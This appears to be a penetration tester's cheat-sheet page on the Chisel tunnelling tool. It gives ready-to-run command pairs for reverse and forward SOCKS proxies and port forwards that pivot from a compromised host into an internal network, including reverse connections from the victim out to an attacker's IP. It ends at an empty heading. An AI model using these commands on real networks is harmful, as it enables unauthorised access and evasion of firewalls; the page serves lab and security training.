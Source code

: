 ```yaml
---
description: >-
  Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.
  Single executable including both client and server. Written in Go (golang).
  Chisel is mainly useful for passing through firewal
---
```


# Chisel

{% embed url="https://github.com/jpillora/chisel" %}

### Reverse SOCKS Proxy

Reverse SOCKS Proxy connects back from a compromised server to a listener waiting on our attacking machine.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
"Note !!"
Despite connecting back to port `LISTEN_PORT`, the actual proxy has been opened on 127.0.0.1:`XXXX`. 
As such, we will be using port `XXXX` when sending data through the proxy.
```

* Note the use of `R:socks` in this command. "R" is prefixed to remotes when connecting to a chisel server that has been started in reverse mode. It essentially tells the **chisel client** that the server **anticipates the proxy** or **port forward** to be made at the **client side** (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server).



### Forward SOCKS Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections).

```bash
#Compromised host
./chisel server -p LISTEN_PORT --socks5

#Attacking machine
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

//PROXY_PORT - port that will be opened for the proxy.
```

* For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.



### Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

// LISTEN_PORT - the port that started the chisel server on
// LOCAL_PORT - the port that needs to be opened on the attacking machine to link with the desired target port.
```

* For example ,assume that the IP is `172.16.0.20`, the compromised server `172.16.0.5`, and our target is port `22` on `172.16.0.10`.
* The syntax for forwarding `172.16.0.10:22` back to port `2222` on our attacking machine would be as follows: `./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &` Connecting back to the attacking machine, functioning as a chisel server started with: `./chisel server -p 1337 --reverse &`
* This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.



### Local Port Forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

```bash
#Compromised host
./chisel server -p LISTEN_PORT

#Attacking machine
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

* For example, to connect to `172.16.0.5:8000` (the **compromised host** running a **chisel server**), forwarding our **local port** `2222` to `172.16.0.10:22` (our intended target), use: `./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

### Use Cases
